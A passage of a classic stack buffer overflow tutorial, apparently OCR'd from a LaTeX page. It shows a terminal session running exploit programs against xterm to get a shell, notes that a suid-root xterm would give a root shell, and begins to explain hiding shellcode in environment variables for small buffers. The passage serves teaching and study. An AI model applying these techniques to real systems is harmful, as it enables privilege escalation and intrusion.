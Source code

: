 \documentclass[10pt]{article}
\begin{document}
{\begin{verbatim}
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4

[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48

[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
....

Warning: some arguments in previous message were lost
Illegal instruction

[aleph1]$ exit
.
.
.

[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54

[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: some arguments in previous message were lost
bash$
\end{verbatim}


Eureka! Less than a dozen tries and we found the magic numbers. If xterm were installed suid root this would 
now be a root shell. 

\subsection{Small Buffer Overflows}
There will be times when  the buffer you are trying to overflow is so small that either the shellcode wont fit into 
it, and it will overwrite the return address with instructions instead of the address of our code, or the number of 
NOPs you can pad the front of the string with is so small that the chances of guessing their address is 
minuscule. To obtain a shell from these programs we will have to go about it another way. This particular 
approach only works when you have access to the program's environment variables. What we will do is place 
our shellcode in an environment variable, and then overflow the buffer with the address of this variable in 
memory. This method also increases your changes of the exploit working as you can make the environment 
variable holding the shell code as large as you want. The environment variables are stored in the top of the stack 
when the program is started, any modification by setenv() are then allocated elsewhere. The stack at the 
beginning then looks like this:

\begin{verbatim}
<strings><argv pointers>NULL<envp pointers>NULL<argc><argv>envp> 
\end{verbatim}

Our new program will take an extra variable, the size of the variable containing the shellcode and NOPs. Our 

}
\end{document}
